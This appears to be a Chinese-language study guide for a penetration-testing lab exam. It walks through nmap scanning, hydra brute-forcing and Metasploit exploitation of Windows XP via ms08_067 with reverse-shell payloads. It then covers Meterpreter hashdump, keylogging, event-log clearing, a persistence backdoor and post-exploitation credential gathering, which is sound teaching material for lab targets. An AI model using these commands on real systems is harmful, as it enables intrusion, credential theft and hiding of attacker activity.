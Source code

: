 # Practical Exam 1 Practice

> Author: Dongyi Guo
>
> Doc Version : 1.2

* 在正式的考试中，您将只使用Kali Linux，其他设备的配置仅为个人练习使用。
* 在本文件中，所有 ```<...>``` 的位置要求您自行寻找到相关的信息来填入。

## Question 1

#### Linux 网络设置 (Kali, Metasploitable2):

通过以下命令为Linux设备设置IP：

```bash
ip a a <IP地址>/<网络前缀> dev <网络接口>
```

通过以下命令检查当前设备IP：

```bash
ip a
```

或者：

```bash
ifconfig
```

留意对应网络接口的 ```inet``` 参数来查看 IPv4 地址。在考试中只需要对Kali Linux进行网络设置，对Metasploitable2进行配置时（使用msfadmin账号），注意使用 ```sudo``` 。

#### Windows 网络设置:

* 在正式的考试中无需配置Windows虚拟机。

在 Windows 7 或更高版本的Windows上设置网络：

* 去到 Network and Sharing Center，点击 Connections 后面的网络接口。
* 点击 Properties。
* 高亮选择 "Internet Protocol Version 4 (TCP/IPv4)", 点击 Properties。
* 在新窗口中设置IP和子网掩码。

对于 Windows XP：

* 去到 Control Panel （控制面板）。
* 双击 Network Connection。
* 双击存在的网络接口。
* 选择 Properties。
* 高亮选择 "Internet Protocol [TCP/IP]", 点击 Properties。
* 在新窗口中设置IP和子网掩码。

## Question 2

通过 ```nmap``` 找到网络中活动的主机：

```bash
nmap -sn <网络地址/网络前缀>
```

对目标主机进行端口扫描：

```bash
nmap <主机地址>
```

如需获取目标主机系统信息：

```bash
nmap -O -v <HostAddress>
```

如果在自主练习时需要关闭防火墙：

* 在开始菜单中搜索 "Windows Firewall"，并点选那个只有这两个单词的选项。
* 在侧边栏菜单中点选 "Turn Windows Firewall on or off"。
* 关闭所有防火墙服务。

## Question 3

通过 ```hydra``` 可以brute-force密码验证，在给定一个登录名，主机和被突破的服务协议的情况下，您同时需要一个密码字典：

```bash
hydra -l <登录名> -P <密码字典文件路径> <主机地址> <服务协议> -t <并行任务数量>
```

可以在：

```bash
man hydra
```

获取所有 ```hydra``` 支持的服务协议。

## Question 4

Windows XP 可用的攻破方式有：

* VNC injection, 会返回一个图形界面可供检视和操作.
* Meterpreter, 会返回一个命令行界面，提供多种功能.

启动Metasploit Framework (命令提示符为: ```msf6>``` 之后)，对于 VNC injection：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
set ViewOnly false
exploit
```

对于 Meterpreter：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
exploit
```

在 Meterpreter 会话中 (命令提示符为: ```meterpreter>``` 之后)，可用的命令有：

```bash
cd <文件目录> # 切换文件目录
ls # 列出当前文件目录内容
pwd # 显示当前文件目录
sysinfo # 显示系统信息
ipconfig # 显示网络配置
screenshot # 截图屏幕
hasdump # 打印设备用户和其加密过的密码
search -f <文件名> # 从当前文件目录开始搜寻文件
download <远程路径> <本地路径> # 下载远程文件到本地位置
# download 只识别Unix系统中反斜杠('/')来表示文件层级，对于Windows的正斜杠('\'),
# 可以替换成双正斜杠('\\')'或者改回反斜杠

clearev # 清除事件记录

getpid # 获取当前寄生进程ID
ps # 列出当前系统进程
migrate <processID> # 通过声明ID移植到新的进程
# 按键记录器以下仅在寄生进程权限较高时（如文件管理器进程）可用
keyscan_start # 启动按键记录
keyscan_dump # 获取已生成的按键记录
keyscan_stop # 停止按键记录

# 将当前Meterpreter会话放至后台
background
# 或者
bg
# 或者 ctrl + z
```

如需给Meterpreter会话的目标主机添加后门，后台该会话，然后在Metasploit Framework中：

```bash
use exploit/windows/local/persistence
set LHOST <Kali的IP地址>
set LPORT 445
set STARTUP SYSTEM # SYSTEM不要小写
sessions # 获取Meterpreter会话ID
set session <Meterpreter会话ID> 
exploit
```

然后开始监听后门的回执：

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set LPORT 445
run # 和exploit是一样的
```

之后，若XP重启，其会发送一个链接请求到Kali，之前的监听窗口会自动进入Meterpreter。

## MSF Essentials

在Metasploit Framework的窗口中：

```bash
search <关键字> # 通过关键字寻找漏洞
show options # 显示当前漏洞和payload中可配置的参数
show paylaods # 显示当前漏洞可用的payload
show targets # 显示当前漏洞可用的目标
```

* 可以使用 ```setg``` 来取代 ```set``` ，这样如果需要在多个漏洞模组之间切换，如果参数有同名的，参数值将会被保留。
* 参数名大小写不敏感，但是参数值，特别是在 ```show options``` 中给定可接受的参数值的 (Accepted: ...)， 必须严格遵守大小写：

```bash
set sTArTuP SYSTEM # 彳亍
set STARTUP system # 不彳亍
```

## Post-Exploitation Information Gathering

* 这通常意味着我们需要对目标已经有一个有管理员权限的会话。

如果您有一个reverse shell的会话想升级到Meterpreter会话，可使用：

```bash
sessions # 检查reverse shell会话的会话ID
sessions -u <ReverseShell会话ID>
```

如果您有一个一般权限的Meterpreter会话, 想找到漏洞来跃迁您的权限，可使用：

```bash
sessions # 检查Meterpreter会话的会话
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreter会话ID>
run
```

来列出可用的漏洞来跃迁目标权限。

获得了管理员权限的会话之后，可以在MSF中搜索获取信息的模组：

```bash
# 对于 Linux
search post/linux/gather
# 对于 Windows
search post/windows/gather
```

比较常用的信息获取模组有：

```bash
use post/<linux/windows>/gather/checkvm # 检查目标是否为虚拟机，如果是则列出虚拟化服务
use post/linux/gather/checkcontainer # 检查目标是否为容器
use post/linux/gather/hashdump # 显示目标用户和加密过的密码
use post/windows/gather/smart_hashdump # 显示目标用户和加密过的密码并保存至 /root/.msf4/loot/
use post/linux/gather/enum_protections # 显示目标设备的安全措施
use post/linux/gather/enum_configs # 显示目标设备的服务配置文件并保存至 /root/.msf4/loot/
use post/linux/gather/enum_network # 显示目标设备的网络配置信息并保存至 /root/.msf4/loot/
use post/linux/gather/enum_system # 显示目标设备的系统信息并保存至 /root/.msf4/loot/
```

将 ```session``` 参数设置为管理员权限的Meterpreter会话ID就可以开始获取信息了：

```bash
set session <Meterpreter会话ID>
run
```

